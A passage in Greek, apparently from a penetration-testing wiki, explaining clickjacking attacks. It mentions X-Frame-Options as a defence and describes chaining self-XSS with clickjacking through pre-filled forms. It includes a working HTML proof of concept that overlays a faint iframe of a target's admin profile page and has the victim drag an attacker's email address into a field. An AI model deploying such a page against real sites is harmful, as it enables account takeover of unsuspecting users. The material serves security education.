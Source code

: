 Για να επιτευχθεί αυτή η επίθεση, ο επιτιθέμενος δημιουργεί μια ιστοσελίδα που περιέχει ένα κακόβουλο στοιχείο που είναι κρυμμένο από το χρήστη. Όταν ο χρήστης σύρει και απελευθερώσει ένα αντικείμενο στην ιστοσελίδα, ο κακόβουλος κώδικας εκτελείται αυτόματα, εκμεταλλευόμενος την ευπάθεια του Clickjacking. Αυτό μπορεί να οδηγήσει σε διάφορες επιθέσεις, όπως την κλοπή διαπιστευτηρίων, την εκτέλεση κακόβουλου κώδικα ή την αποκάλυψη ευαίσθητων πληροφοριών.

Για να προστατευθείτε από αυτήν την επίθεση, είναι σημαντικό να ελέγχετε προσεκτικά τις ιστοσελίδες που επιτρέπετε στους χρήστες να σύρουν και να απελευθερώσουν αντικείμενα. Επίσης, μπορείτε να χρησιμοποιήσετε τον HTTP header "X-Frame-Options" για να περιορίσετε την ενσωμάτωση της ιστοσελίδας σε άλλα πλαίσια, μειώνοντας έτσι τον κίνδυνο του Clickjacking.
```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
### XSS + Clickjacking

Εάν έχετε εντοπίσει μια επίθεση **XSS που απαιτεί από τον χρήστη να κάνει κλικ** σε κάποιο στοιχείο για να **ενεργοποιηθεί** το XSS και η σελίδα είναι **ευάλωτη στο clickjacking**, μπορείτε να το εκμεταλλευτείτε για να εξαπατήσετε τον χρήστη να κάνει κλικ στο κουμπί/σύνδεσμο.\
Παράδειγμα:\
_Βρήκατε ένα **self XSS** σε ορισμένες προσωπικές λεπτομέρειες του λογαριασμού (λεπτομέρειες που **μόνο εσείς μπορείτε να ορίσετε και να διαβάσετε**). Η σελίδα με τη **φόρμα** για την ορισμό αυτών των λεπτομερειών είναι **ευάλωτη** στο **clickjacking** και μπορείτε να **προ-γεμίσετε** τη **φόρμα** με τις παραμέτρους GET._\
\_\_Ένας επιτιθέμενος μπορεί να προετοιμάσει μια επίθεση **clickjacking** σε αυτήν τη σελίδα **προ-γεμίζοντας** τη **φόρμα** με το **XSS payload** και να εξαπατήσει τον **χρήστη** να **υποβάλει** τη φόρμα. Έτσι, **όταν η φόρμα υποβάλλεται** και οι τιμές τροποποιούνται, ο **χρήστης θα εκτελέσει το XSS**.

